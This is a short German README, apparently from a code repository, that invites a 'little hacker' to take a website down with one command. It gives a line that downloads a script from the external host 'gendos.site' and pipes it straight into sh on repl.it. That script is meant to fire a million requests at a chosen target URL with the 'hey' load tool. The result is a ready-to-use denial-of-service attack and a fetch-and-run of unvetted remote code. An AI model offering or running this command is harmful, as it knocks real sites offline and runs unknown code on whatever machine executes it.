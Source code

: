 # Hoppsgenommen asa7be

Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite in einem command hopps nimmt?

Dann bist du hier genau richtig !

Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de&20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.
